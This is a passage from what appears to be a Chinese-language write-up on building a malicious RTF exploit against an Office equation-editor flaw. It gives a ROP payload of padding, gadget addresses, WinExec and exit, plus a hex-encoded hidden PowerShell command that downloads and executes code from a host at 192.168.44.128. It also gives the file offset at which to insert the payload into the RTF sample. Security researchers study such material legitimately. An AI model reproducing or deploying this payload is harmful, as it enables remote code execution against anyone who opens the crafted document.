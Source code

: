 `706f7765727368656c6c2e657865202d6e6f70202d772068696464656e202d6320224945582028286e65772d6f626a656374206e65742e776562636c69656e74292e646f776e6c6f6164737472696e672827687474703a2f2f3139322e3136382e34342e3132383a38302f6127292922`

经过多次测试，最终payload为：

```
payload=buffer +Gadgets0 + &amp;sub_43ecfa + Gadgets2 + 00000231（sub_43ecfa_arg1）+ cmdline +&amp;winexec + &amp;exit +cmdline + “00” +cmdline

BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB93B74400F5614300FAEC430092B744003102000030054500C0D8420
030622D773005450000706f7765727368656c6c2e657865202d6e6f70202d772068696464656e202d6320224945582028286e
65772d6f626a656374206e65742e776562636c69656e74292e646f776e6c6f6164737472696e672827687474703a2f2f3139322
e3136382e34342e3132383a38302f6127292922
```

测试的时候发现缺少gadgets0会破坏数据结构，所以只能保留。



## 07 样本制作

由于在网上没有找到rtf文件结构的详细说明，而且char record和matrlx record的结构也没找到。而且构造空白的公式和特殊的公式进行二进制对比时，无法精确比较出矩阵公式的位置，所以只能从exp上分析，经过多次调试分析发现，从rtf文件的28551D（6F87h）处开始存放的数据会读入v[7]，也就是sub_43ebdf第二次调用sub_43ecfa地方。

从下面两张图可以看出v[7]包括ebp已经被’b’覆盖。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01bffe15b9c1e03b1e.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01509f91bc249e5285.png)

所以把payload放在rtf文件偏移量为28551D后面。
